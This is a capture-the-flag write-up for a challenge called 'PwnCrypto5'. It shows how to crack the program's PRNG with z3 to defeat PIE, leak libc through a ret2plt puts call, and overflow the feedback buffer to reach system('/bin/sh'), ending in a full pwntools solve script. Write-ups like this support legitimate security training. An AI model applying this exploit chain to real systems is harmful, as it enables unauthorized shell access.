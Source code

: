 # PwnCrypto5

When we first run the program, we're prompted with a couple of options
1. Get our mark
2. Get our student number
3. Enter feedback

After decompiling the program, it appears that both the mark and student number option are using the same PRNGs. but the student number option gives us the whole value returned.

It also uses the address of menu to seed it.

The feedback option allows us to buffer overflow, but there's not much we can do with PIE enabled, and ASLR.

So, we crack this PRNG using z3:

```python
def solvePRNG(x, y):
    import z3
    a, b = z3.BitVec('a', 32), z3.BitVec('b', 32)
    def next(a, b):
        a = a^(14*a)
        a^=b
        b = 62555385*b+17
        return a, b
    s = z3.Solver()
    s.add(next(a, b)[0]==x)
    s.add(next(next(a, b)[0],next(a, b)[1])[0]==y)
    s.check()
    m = s.model()
    return eval(str(m[a]<<32|m[b]))
```

From here, we can use the PIE offset to figure out the location of the LIBC using ret2plt. We call `puts` on the `got` entry of `puts`, which will give us the location of `puts` in the LIBC.

```python
    rop = ROP(exe)
    rop.raw(b'A'*40)
    rop.puts(exe.got['puts'])
    rop.main()

    
    r.sendline(b'3')
    r.sendline(rop.chain())
    sleep(0.2)
    r.sendline(b'4')
    r.readuntil(b'Enter here')
    r.readuntil(b'Enter here:')
    line = r.readline().strip()
    value = "00"+str(binascii.hexlify(line))[2:-1]
    final = "".join(reversed([value[i:i+2] for i in range(0, len(value), 2)]))
    log.success(str(final))
    value = int(str(final),16)-libc
```
(`sleep(0.2)` is included for consistency)

We also call `main` again, since we want to do another buffer overflow right into `system("/bin/sh")`.

After getting the LIBC offset, it's a trivial ret2libc, but we have to remember that we're in `x64`, so we have to use a `pop rdi; ret` gadget.

Our final solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln")

context.binary = exe
pie = 0x1239
libc = 0x84400
system = 0x52290
binsh = 0x1b45bd
rdi = 0x13f3

def solvePRNG(x, y):
    import z3
    a, b = z3.BitVec('a', 32), z3.BitVec('b', 32)
    def next(a, b):
        a = a^(14*a)
        a^=b
        b = 62555385*b+17
        return a, b
    s = z3.Solver()
    s.add(next(a, b)[0]==x)
    s.add(next(next(a, b)[0],next(a, b)[1])[0]==y)
    s.check()
    m = s.model()
    return eval(str(m[a]<<32|m[b]))

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.D:
            gdb.attach(r)
    else:
        r = remote('localhost',5000)
    return r


def main():
    r = conn()
    r.sendline(b'2')
    r.readuntil(b'student number is: ')
    line1 = r.readline().strip()
    
    r.sendline(b'2')
    r.readuntil(b'student number is: ')
    
    line2 = r.readline().strip()
    
    x = solvePRNG(int(str(line1)[2:-1],16),int(str(line2)[2:-1],16))-pie
    log.success(str(hex(x)))
    
    exe.address = x
    rop = ROP(exe)
    rop.raw(b'A'*40)
    rop.puts(exe.got['puts'])
    rop.main()

    
    r.sendline(b'3')
    r.sendline(rop.chain())
    sleep(0.2)
    r.sendline(b'4')
    r.readuntil(b'Enter here')
    r.readuntil(b'Enter here:')
    line = r.readline().strip()
    value = "00"+str(binascii.hexlify(line))[2:-1]
    final = "".join(reversed([value[i:i+2] for i in range(0, len(value), 2)]))
    log.success(str(final))
    value = int(str(final),16)-libc
    payload = b'A'*40
    payload += p64(x+rdi+1)
    payload += p64(x+rdi)
    payload += p64(value + binsh)
    payload += p64(value + system)
    r.sendline(b'3')
    r.sendline(payload)
    r.sendline(b'4')
    r.interactive()


if __name__ == "__main__":
    main()
```
